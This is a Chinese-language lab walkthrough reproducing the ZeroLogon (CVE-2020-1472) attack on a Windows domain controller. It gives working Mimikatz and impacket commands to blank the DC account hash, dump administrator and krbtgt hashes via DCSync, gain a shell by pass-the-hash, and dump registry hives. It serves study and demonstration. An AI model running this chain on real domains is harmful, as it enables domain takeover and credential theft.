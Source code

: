 # Zerologon

ZeroLogon (CVE-2020-1472) 影响域内登录认证协议Netlogon (MS-NRPC) 中所使用的加密身份验证方案 (AES-CFB8)，在通过NetLogon协议与AD域控建立安全通道时，强行登录尝试，对全零的纯文本应用AES-CFB8加密将导致全零的密文，从而可以绕过正常认证，进一步可获取域管理员HASH，获取域管权限。

影响系统版本：

- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Windows Server 2012 R2
- Windows Server 2012 R2 (Server Core installation)
- Windows Server 2016
- Windows Server 2016 (Server Core installation)
- Windows Server 2019
- Windows Server 2019 (Server Core installation)
- Windows Server, version 1903 (Server Core installation)
- Windows Server, version 1909 (Server Core installation)
- Windows Server, version 2004 (Server Core installation)

复现环境win7+winserver 2012 r2，域内另外一台win10虚拟机起代理方便访问到域控

漏洞利用过程中会重置域控存储在域中(ntds.dit)的凭证，而域控存储在域中的凭证与本地的注册表/lsass中的凭证不一致时，会导致目标域控脱域，所以在重置完域控凭证后要尽快恢复。

# 利用过程

## 严重漏洞是否存在

可以用在线的工具来识别systeminfo

![image-20231202111234036](images/1.png)

这台机器是存在zerologon的

**Mimikatz**

```
lsadump::zerologon /target:<dc-ip> /account:<主机名>$
lsadump::zerologon /target:192.168.1.10 /account:DC$
```

![image-20231202111533180](images/2.png)

## 置空域控Hash

**域控的机器帐户HASH存储在注册表中，系统启动时会将其加载到lsass，当攻击置空域控HASH后，仅AD (NTDS.DIT) 中的密码会更改，而不是注册表或加载到lsass中的密码，这样将会导致域控脱域，无法使用Kerberos进行身份验证，因此要尽快恢复。**

**mimikatz**

```
lsadump::zerologon /target:<dc-ip> /account:<主机名>$ /exploit
lsadump::zerologon /target:192.168.1.10 /account:DC$ /exploit
```

![image-20231202112040275](images/3.png)

可以直接用脚本https://github.com/VoidSec/CVE-2020-1472一键置空，不过置空的话还是推荐mimikatz

```
python3 cve-2020-1472-exploit.py <主机名> 192.168.159.149
# 主机名也就是扫出的机器名称，对应的会有一个主机名$账户
```

## 导出Hash

```
导出域管hash，这里我们一般去导出administrator的hash
lsadump::dcsync /domain:<domain> /dc:<DC server> /user:<想要导出hash的user，如：administrator> /authuser:<计算机名>$ /authdomain:<domain> /authpassword:"" /authntlm
例如：
lsadump::dcsync /domain:town.domain /dc:dc.town.domain /user:krbtgt /authuser:DC$ /authdomain:town /authpassword:"" /authntlm

lsadump::dcsync /domain:town.domain /dc:DC /user:administrator /authuser:DC$ /authdomain:town /authpassword:"" /authntlm
```

![image-20231202112236145](images/4.png)

再置空hash后，可以免密获得域管Administrator的hash，或者直接用impacket来导出所有hash，我习惯应用impacket里面的脚本

```
python secretsdump.py town/主机名$@主机IP -just-dc -no-pass

python secretsdump.py town/DC$@192.168.1.10 -just-dc -no-pass
```

![image-20231202154733809](images/5.png)

可以看到DC的hash被置为了`31d6cfe0d16ae931b73c59d7e0c089c0`，这是空值的hash

## 恢复域控HASH

拿到hash后我们就可以通过wmiexec，psexec等来获取域控的权限

Mimikatz恢复域控HASH是将NTDS.DIT中的凭证以及注册表/lsass中的凭证同时修改为 (`Waza1234/Waza1234/Waza1234`)，并非是原本值，虽然不影响域运行，但是还是留下了痕迹。

推荐方法是恢复成原始的HASH，首先要获取注册表信息中域控原始HASH，可以利用Impacket包中的wmiexec.py、psexec.py工具获取，以wmiexec.py为例，命令中进行了HASH传递，凭证是刚刚获取的域管HASH：即administrator的hash

```
537e99775e584cef8b4151b859f7640a
```

```
获取shell
python wmiexec.py -hashes :537e99775e584cef8b4151b859f7640a town/administrator@192.168.1.10
```

![image-20231202155030883](images/6.png)

接下来执行以下代码恢复hash

```
# 获取注册表转储文件，默认存在目标机C:\目录下
# 目标机中文系统会提示解码错误，不影响使用
# /y:强制覆盖已存在文件，避免目标机C:\目录下存在同名文件，命令会询问是否覆盖，半交互环境程序会卡住
C:\>reg save HKLM\SYSTEM system.hive /y    
C:\>reg save HKLM\SAM sam.hive /y         
C:\>reg save HKLM\SECURITY security.hive /y

# 将转储文件，下载到本地
C:\>lget system.hive                    
C:\>lget sam.hive
C:\>lget security.hive

# 删除目标机上的转储文件
C:\>del /f system.hive                 
C:\>del /f sam.hive
C:\>del /f security.hive

C:\>exit

# 通过注册表转储导出HASH
python secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL
```

![image-20231202160914015](images/7.png)

![image-20231202155316338](images/8.png)

这里可以看到域控密钥和空的hash不同，**上一步中获取的是NTDS.DIT中域控HASH记录，而这一步获取的是注册表中HASH记录**

然后用工具将HASH恢复，将注册表中HASH记录同步到NTDS.DIT：

https://github.com/dirkjanm/CVE-2020-1472

```
python restorepassword.py town/dc@dc -target-ip 192.168.1.10 -hexpass 11bde758e059a8bf49c150ea6b2246e97a3f725eab4c48067a48053e4015969b55a1d89bb87b468c259a312eade5d542d553461756dcefca034d985ced70e8e58a29ad87786018573597023f97f0e3760c403f73e3fa52c9934e4f6bb0915b252692537145e29b248d04e8b620610fbf13efdbb80eafec00c0487038920d74f6fa31d3b266e710e7f52048318f03b42732d91f0b49db5b7152207d8e8042d2f0aecbc953f1eb1bc9b4f690453f89156f10ff08748fdc687d29cf1699f08b367b04360a0bde66dd538f355e3ab4b111cc01385c5bcf9268265421f1242cc8b3d6b8e37aff2abb3f555c8e3382b189a0f0
```

![image-20231202155622007](images/9.png)

再来看就获取不到了，认证失败

![image-20231202161334452](images/10.png)

```
python secretsdump.py -hashes :11e5881c03053b028765c25eb293d470 town/DC$@192.168.1.10
```

![image-20231202161458968](images/11.png)

使用DC恢复的hash去dump成功

![image-20231202162114315](images/12.png)

而且另外一台win10的虚拟机也重新连接到域

# 写在最后

zerologon的原理其实就是利用漏洞将DC账户的hash置空，这样就可以强制去获取administrator的hash，因为这样做会脱域，最后再将hash恢复，我们可以使用wmiexec等直接用administrator的hash获取域控的权限，横向的手段其实就是PTH



参考链接

https://www.cnblogs.com/CoLo/p/14624772.html#0x03-pth-of-mimikatz

https://blog.csdn.net/Captain_RB/article/details/120643838

脚本：

https://github.com/fortra/impacket/releases/tag/impacket_0_11_0

https://github.com/VoidSec/CVE-2020-1472

https://github.com/dirkjanm/CVE-2020-1472